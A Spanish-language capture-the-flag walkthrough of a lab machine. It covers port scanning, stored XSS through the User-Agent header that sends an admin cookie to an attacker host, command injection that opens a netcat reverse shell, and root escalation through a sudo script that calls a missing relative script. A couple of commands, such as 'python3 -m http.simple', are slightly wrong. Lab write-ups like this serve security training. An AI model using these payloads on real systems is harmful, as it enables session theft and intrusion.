
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.11.8
Host is up, received user-set (0.28s latency).
Scanned at 2024-07-02 14:28:11 -03 for 18s
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
5000/tcp open upnp syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p22,5000 10.10.11.8
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_ 256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
5000/tcp open upnp?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Server: Werkzeug/2.2.2 Python/3.11.2
| Date: Tue, 02 Jul 2024 17:25:04 GMT
| Content-Type: text/html; charset=utf-8
| Content-Length: 2799
| Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="UTF-8">
| <meta name="viewport" content="width=device-width, initial-scale=1.0">
| <title>Under Construction</title>
| <style>
| body {
| font-family: 'Arial', sans-serif;
| background-color: #f7f7f7;
| margin: 0;
| padding: 0;
| display: flex;
| justify-content: center;
| align-items: center;
| height: 100vh;
| .container {
| text-align: center;
| background-color: #fff;
| border-radius: 10px;
| box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
| RTSPRequest:
| <!DOCTYPE HTML>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error response</title>
| </head>
| <body>
| <h1>Error response</h1>
| <p>Error code: 400</p>
| <p>Message: Bad request version ('RTSP/1.0').</p>
| <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
| </body>
|_ </html>
Si accedemos al sitio, vemos lo siguiente:

Inspeccionamos las tecnologías que está usando la web:

Realizamos fuzzing para intentar encontrar directorios ocultos:
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

Si intentamos acceder a /dashboard, no tenemos permisos:

Si accedemos al apartado de /support, vemos el siguiente formulario:

Probamos cargar datos y pasa sin problemas. Ahora, intentamos en el campo Message poner lo siguiente para testear si es vulnerable a XSS:
<script>alert("XSS")</script>
Vemos que nos bloquea con el siguiente mensaje:

Por lo visto, se envía una alerta al Administrador para que la revise. Eso quiere decir que el Administrador está logueado, por lo que podemos intentar obtener su cookie de sesión. Esto será posible ya que Httpnly está en False:

Si intentamos decodificar el valor de la cookie, vemos que la primer parte se refiere a "user". Al resto lo toma como inválido:

Intrusión
Obteniendo la cookie de sesión del usuario Administrador
Opción 1
Capturamos la request al panel de Support con Burpsuite. Para obtener la sesión del usuario administrador, debiéramos insertar el código en un lugar donde no se dispare el bloqueo. Indagando un poco en internet, notamos que podemos hacer uso del header User-Agent (quizás el decode de la cookie anterior era una pista).
Primero, vamos a levantar un servidor web con Python:
python3 -m http.simple 80
Luego, vamos a generar una nueva alerta para que la solicitud sea enviada al Administrador, pero en el User-Agent, vamos a especificar lo siguiente:
User-Agent: <img src=x onerror=fetch('http://10.10.16.4/'+document.cookie);>

Esperamos un poco, cuando el administrador ingrese a validar la alerta, recibiremos su cookie de sesión:

/is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Opción 2
Otra opción es crear un archivo, por ejemplo test.js con el siguiente contenido:
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.16.4/cookie=' + document.cookie);
request.send();
Y en User-Agent especificarlo de esta forma:
User-Agent: <script src="http://10.10.16.4/test.js"></script>
El resultado es el mismo:

Impersonalizando al usuario admin
Si ahora modificamos el valor obtenido en el campo Value para impersonalizar al usuario admin y recargamos el Dashboard, lo veremos:

Ejecución remota de código
Si hacemos click en Generate Report, vemos como resultado un Systems are up and running!. Vamos a capturar nuevamente la request con Burpsuite.
Al lado del campo date que se tramita por POST en la request, vamos a probar poner punto y coma, y seguido un comando como por ejemplo, whoami:

Vemos que nos representa el usuario dvir.
Obteniendo una Reverse Shell
Nos quedamos a la escucha con netcat en el puerto 443 y ejecutamos lo siguiente:
date=2023-09-15;nc -e /bin/bash 10.10.16.4 443

Obtenemos la Shell:

Hacemos un tratamiento de la TTY, y luego vemos la primer flag:
Escalación de privilegios
Si ejecutamos sudo -l, vemos que cualquier usuario puede ejecutar usr/bin/syscheck como root sin especificar contraseña:

El script es el siguiente. Primero valida si somos root (EUID es el User ID, y es 0 si hace referencia a root). Luego, hace una serie de validaciones a nivel sistema como el tiempo de modificación del kernel, el espacio en disco, el promedio de carga del sistema y el estado de un servicio de base de datos (initdb.sh):
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
/usr/bin/echo "Database service is not running. Starting it..."
./initdb.sh 2>/dev/null
else
/usr/bin/echo "Database service is running."
fi
exit 0
Vamos a ejecutarlo:

Vemos en el script que para validar si el servicio de la base de datos está corriendo, consulta el script initdb.sh, pero si lo buscamos, no existe:

Por lo tanto, vamos a crearlo dentro de nuestro home. Especificaremos que se ejecute una /bin/bash. Como esto será ejecutado por root, obtendremos la shell al correr el script:
echo "/bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck

Otra opción hubiese sido darle permisos SUID a /bin/bash y luego ejecutarla:
echo "chmod u+s /bin/bash"
sudo /usr/bin/syscheck
/bin/bash -p

Desde aquí vemos la siguiente flag:
